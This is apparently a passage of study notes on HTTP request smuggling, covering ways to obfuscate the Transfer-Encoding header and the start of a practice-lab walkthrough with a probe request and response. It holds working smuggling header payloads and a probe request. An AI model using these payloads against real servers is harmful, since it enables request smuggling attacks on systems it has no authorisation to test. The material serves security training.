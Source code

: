 ### TE.TE behavior: obfuscating the TE header
Here, the front-end and back-end servers both support the Transfer-Encoding header, but one of the servers can be induced not to process it by obfuscating the header in some way.

There are potentially endless ways to obfuscate the Transfer-Encoding header. For example: 
```bash
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```

Each of these techniques involves a subtle departure from the HTTP specification. Real-world code that implements a protocol specification rarely adheres to it with absolute precision, and it is common for different implementations to tolerate different variations from the specification. To uncover a TE.TE vulnerability, it is necessary to find some variation of the Transfer-Encoding header such that only one of the front-end or back-end servers processes it, while the other server ignores it

Depending on whether it is the front-end or the back-end server that can be induced not to process the obfuscated Transfer-Encoding header, the remainder of the attack will take the same form as for the CL.TE or TE.CL vulnerabilities already described

### PRACTITIONER Lab: HTTP request smuggling, obfuscating the TE header
First we need to determine what the frontend server is using, TE or CL

We send the req:
```bash
POST / HTTP/1.1
Host: ...
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked
\r\n
3\r\n
abc\r\n
X\r\n
```
Response 404 bad request and in the body:
```bash
{"error": "invalid request"}
```
This indicates that the frontend is using TE
